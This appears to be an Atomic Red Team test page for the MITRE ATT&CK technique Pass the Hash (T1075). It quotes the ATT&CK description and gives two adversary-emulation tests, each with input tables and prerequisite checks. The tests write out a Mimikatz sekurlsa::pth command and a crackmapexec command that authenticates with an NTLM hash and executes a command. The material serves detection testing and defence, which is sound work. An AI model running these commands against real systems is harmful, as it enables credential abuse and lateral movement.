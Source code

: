 # T1075 - Pass the Hash

## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1075)

<blockquote>Pass the hash (PtH) is a method of authenticating as a user without having access to the user's cleartext password. This method bypasses standard authentication steps that require a cleartext password, moving directly into the portion of the authentication that uses the password hash. In this technique, valid password hashes for the account being used are captured using a Credential Access technique. Captured hashes are used with PtH to authenticate as that user. Once authenticated, PtH may be used to perform actions on local or remote systems. 

Windows 7 and higher with KB2871997 require valid domain user credentials or RID 500 administrator hashes. (Citation:
NSA Spotting)</blockquote>

## Atomic Tests

- [Atomic Test #1 - Mimikatz Pass the Hash](#atomic-test-1---mimikatz-pass-the-hash)

- [Atomic Test #2 - crackmapexec Pass the Hash](#atomic-test-2---crackmapexec-pass-the-hash)

<br/>

## Atomic Test #1 - Mimikatz Pass the Hash

Note: must dump hashes first
[Reference](https://github.com/gentilkiwi/mimikatz/wiki/module-~-sekurlsa#pth)

**Supported Platforms:** Windows

#### Inputs:

| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| user_name | username | string | Administrator|
| domain | domain | string | atomic.local|
| ntlm | ntlm hash | string | cc36cf7a8514893efccd3324464tkg1a|

#### Attack Commands: Run with `command_prompt`!

```cmd
mimikatz # sekurlsa::pth /user:#{user_name} /domain:#{domain} /ntlm:#{ntlm}
```

<br/>
<br/>

## Atomic Test #2 - crackmapexec Pass the Hash

command execute with crackmapexec

**Supported Platforms:** Windows

#### Inputs:

| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| user_name | username | string | Administrator|
| domain | domain | string | atomic.local|
| ntlm | command | string | cc36cf7a8514893efccd3324464tkg1a|
| command | command to execute | string | whoami|
| crackmapexec_exe | crackmapexec windows executable | Path | C:&#92;CrackMapExecWin&#92;crackmapexec.exe|

#### Attack Commands: Run with `command_prompt`!

```cmd
crackmapexec #{domain} -u #{user_name} -H #{ntlm} -x #{command}
```

#### Dependencies:  Run with `powershell`!

##### Description: CrackMapExec executor must exist on disk at specified location (#{crackmapexec_exe})

##### Check Prereq Commands:

```powershell
if(Test-Path #{crackmapexec_exe}) { 0 } else { -1 } 
```

##### Get Prereq Commands:

```powershell
Write-Host Automated installer not implemented yet, please install crackmapexec manually at this location: #{crackmapexec_exe}
```

<br/>

